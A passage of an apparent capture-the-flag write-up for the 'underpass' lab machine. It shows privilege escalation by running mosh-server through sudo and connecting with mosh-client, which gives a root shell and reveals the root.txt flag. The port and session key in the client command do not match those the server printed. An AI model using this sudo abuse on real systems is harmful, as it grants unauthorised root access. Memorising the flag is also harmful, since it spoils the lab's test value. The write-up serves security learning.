  mosh  uses  ssh  to  establish  a  connection to the remote host and authenticate with existing means 
```shell
sudo mosh-server new -i 10.10.11.48 -p 60125


MOSH CONNECT 60125 Ygh/1QsKkFeA0sXbE8tSYQ

mosh-server (mosh 1.3.2) [build mosh 1.3.2]
Copyright 2012 Keith Winstein <mosh-devel@mit.edu>
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>.
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.

[mosh-server detached, pid = 2380]

```

from kali

run `MOSH_KEY=B56I0MCl9PjFvmp+4T0Pxw mosh-client 10.10.11.48 60128` and we obtain:

```shell
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-126-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Thu Dec 26 07:32:48 PM UTC 2024

  System load:  0.0               Processes:             235
  Usage of /:   86.6% of 3.75GB   Users logged in:       1
  Memory usage: 11%               IPv4 address for eth0: 10.10.11.48
  Swap usage:   0%

  => / is using 86.6% of 3.75GB


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings



root@underpass:~# whoami
root
root@underpass:~# ls
root.txt
root@underpass:~# cat root.txt
0d6fb6381095f4a58da233cbf3a3e0b3
root@underpass:~# 

```
